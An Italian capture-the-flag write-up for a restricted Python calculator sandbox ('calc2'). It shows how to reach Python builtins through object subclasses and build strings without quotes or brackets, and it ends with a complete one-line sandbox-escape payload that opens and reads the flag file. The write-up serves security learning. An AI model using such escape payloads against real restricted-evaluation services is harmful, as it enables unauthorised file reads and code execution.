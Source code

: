 # PyCalcolatrice 2.0 (`calc2`)

Collegandosi al `nc` ci si trova davanti alla stessa interfaccia di `calc1`, anche se le
funzionalità sono più limitate a causa della mancanza di SymPy.

![La REPL](repl.png)

Analizzando lo script, vengono impostati gli stessi limiti di `calc1`, ma più stringenti, perché
senza SymPy bastano meno risorse:
- Il tempo massimo di utilizzo della CPU è sceso a 1 secondo;
- La quantità massima di memoria è scesa a 16 MB.

Valgono le stesse considerazioni di [`calc1`](../../calc1/writeup/) e l'obiettivo è sempre quello di
riuscire a ottenere i `builtins` di Python per leggere la flag, ma ci sono alcune limitazioni in più:
- Non ci sono funzioni di librerie esterne come SymPy che si possano sfruttare;
- Non si possono usare virgolette, quindi non si possono scrivere stringhe (almeno sembra);
- Non si possono usare parentesi quadre o graffe, quindi non si possono scrivere strutture dati come
  liste e dizionari (almeno sembra, ancora una volta).

Si può immaginare che esistano molte soluzioni tutte diverse, ma devono tutte partire da un oggetto
e un modo per ottenerne uno (probabilmente l'unico rimasto) è creare una tupla con `()`. Da questo
punto in poi seguo un percorso personale, lasciandomi un po' ispirare da un writeup di una vecchia
challenge [che ha qualche caratteristica in comune](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

Ispeziono le poche classi rimaste a disposizione nell'ambiente Python attuale (qualcuna rimane
sempre), prendendo le sottoclassi di `object`, che è la superclasse di `tuple`:

```python
>>> ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, ...]
```

Applicando lo stesso principio usato per `calc1`, posso cercare un metodo di una di queste classi
che, in quanto funzione, abbia l'attributo `__builtins__`. Effettuando la ricerca in locale:

```python
>>> for c in object.__subclasses__():
...   for a in vars(c):
...     try:
...       if hasattr(getattr(c, a), "__builtins__"): print(c, a)
...     except AttributeError: pass
...
<class '_frozen_importlib._ModuleLock'> __init__
<class '_frozen_importlib._ModuleLock'> has_deadlock
...
```

`_frozen_importlib._ModuleLock` è disponibile nell'ambiente della challenge, all'indice 116, quindi
scrivendo `().__class__.__base__.__subclasses__()[116].__init__.__builtins__` ho i `builtins`,
sempre sotto forma di dizionario. Come faccio, però, a costruire le stringhe `"open"` e `"flag"`?

**Fun fact #1:** In Python ogni funzione (e quindi ogni metodo e ogni classe) ha un attributo
`__name__`, il cui valore è una stringa con il nome.

Ciò significa che posso costruire una stringa concatenando singoli caratteri, presi da `__name__` di
funzioni opportunamente considerate, ma per accedere a un carattere di una stringa servono le
parentesi quadre... o forse se ne può fare a meno?

**Fun fact #2:** in Python molti operatori in realtà corrispondono a delle chiamate a metodi
["speciali"](https://docs.python.org/3/reference/datamodel.html#special-method-names), così una
classe può personalizzare il proprio comportamento rispetto a un operatore implementando il metodo
corrispondente. Per esempio, `"Al" + "berto"` viene tradotto in `"Al".__add__("berto")` ed è la
classe `str` a definire il metodo `__add__(self, other)` per concatenare effettivamente le stringhe.

Nel mio caso, quindi, `object[key]` si traduce in
[`object.__getitem__(key)`](https://docs.python.org/3/reference/datamodel.html#object.__getitem__),
che mi serve anche per accedere all'indice 116 nella lista delle sottoclassi di `object` e a `open`
nel dizionario dei `builtins`. Per scrivere `"open"` e `"flag"`, creo in locale una funzione Python
che mi genera il codice più corto possibile per costruire queste stringhe:

```python
>>> methods = dir(())
>>> def build(s):
...   return "+".join(f"().{m}.__name__.__getitem__({m.index(c)})" for c, m in ((c, min((m for m in methods if c in m), key=len)) for c in s))
...
>>> build("open")
'().count.__name__.__getitem__(1)+().__repr__.__name__.__getitem__(4)+().index.__name__.__getitem__(3)+().count.__name__.__getitem__(3)'
>>> build("flag")
'().__format__.__name__.__getitem__(2)+().__le__.__name__.__getitem__(2)+().__add__.__name__.__getitem__(2)+().__ge__.__name__.__getitem__(2)'
```

A questo punto l'exploit finale diventa:

![Exploit](exploit.png)

Flag: `rossiCTF{dUnD3r5_4r3_7h3_N3w_M47h!1!_de87b2}`

**Extra:** L'exploit è lungo 374 caratteri, ma si può ridurre a 358 trasformando alcune parti
ripetute in parametri di una lambda che viene chiamata al volo:

```python
(lambda t,c:t.__class__.__base__.__subclasses__().__getitem__(116).__init__.__builtins__.__getitem__(c(1)+t.__repr__.__name__.__getitem__(4)+t.index.__name__.__getitem__(3)+c(3))(t.__format__.__name__.__getitem__(2)+t.__le__.__name__.__getitem__(2)+t.__add__.__name__.__getitem__(2)+t.__ge__.__name__.__getitem__(2)).read())((),().count.__name__.__getitem__)
```
